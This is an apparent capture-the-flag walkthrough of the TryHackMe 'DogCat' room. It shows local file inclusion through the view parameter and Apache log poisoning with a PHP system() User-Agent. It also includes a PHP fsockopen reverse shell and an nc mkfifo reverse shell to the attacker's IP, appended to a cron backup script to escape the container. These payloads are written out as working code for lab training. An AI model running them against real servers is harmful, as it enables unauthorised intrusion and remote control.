






# DogCat (THM)

- https://tryhackme.com/room/dogcat
- March 16, 2023
- medium

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
```

### HTTP

- home page

```html
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
            </div>
</body>
</html>
```
- for `?view=dog`, it return the same page with addition content

```html
Here you go!

```
- it may be file inclusion
- test local file inclusion 
- `?view=dog/../index`
```html
 Here you go!<br />
<b>Fatal error</b>:  Cannot redeclare containsStr() (previously declared in /var/www/html/index.php:17) in <b>/var/www/html/index.php</b> on line <b>17</b><br />
```
- use `php base64 filter 
- `?view=php://filter/convert.base64-encode/resource=dog/../index`



- convert from base64 and save it in `index.php` in local machine

```php
...
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
...
```
- if `ext` parameter is not included, `.php` extension will be added
- `view` parameter must contain dog or cat
- check the `access.log` file which is normally existed in `/var/log/apache2/access.log` (it is Apache server which is already known from nmap)
- `?view=dog/../../../../../../../var/log/apache2/access.log&ext`



- User Agent also included in this file
- Inject User-Agent to execute `unix commands` later

```python
import requests

url = "http://10.10.231.251"
headers = {
    "User-Agent": "<?php system($_GET['cmd']);?>"
}
requests.get(url, headers=headers)
```
- then open at the browser with `?view=dog/../../../../../../../var/log/apache2/access.log&ext&cmd=id` or

```python
url_access_log = "http://10.10.231.251/?view=dog/../../../../../../var/log/apache2/access.log&ext"

r = requests.get(url_access_log, params={'cmd': 'id'})
print(r.text)
```



## User Access

- try to add value of `cmd` parameter with reverse shell and success with php reverse shell payload

```python
params = {
    'cmd': 'php -r \'$sock=fsockopen("10.11.8.57",4242);exec("/bin/sh -i <&3 >&3 2>&3");\''
}
requests.get(url_access_log, params=params)
```



- `flag1` is under `/var/www/html`
- there is no user directory under `/home` and no user with shell



- it is inside docker

```sh
$ sudo -l
Matching Defaults entries for www-data on 085361b08df2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 085361b08df2:
    (root) NOPASSWD: /usr/bin/env
```


## Root Access

- from GTFObins

```sh
sudo env /bin/sh
```
- get root access

- need to find the flags

```sh
find / -name flag*.txt 2>/dev/null
```
- find next 2 flags and there is no fourth flag inside this docker container and need to escape from docker
- there are no network status checking tools
- there is some suspectious files under `opt`
- `backup.sh` and `backup.tar` file
- `backup.sh` file

```sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
- there is no `/root/container` inside this docker and may be it is from outside of the docker
- as we are now root for this docker and has write access on this file and add some reverse shell
- inside docker shell

```sh
echo 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f' >> backup.sh
``
- listen with nc at local machine at port 4243 and then execute this file

```sh
sh backup.sh
```



- get next root account but it is outside docker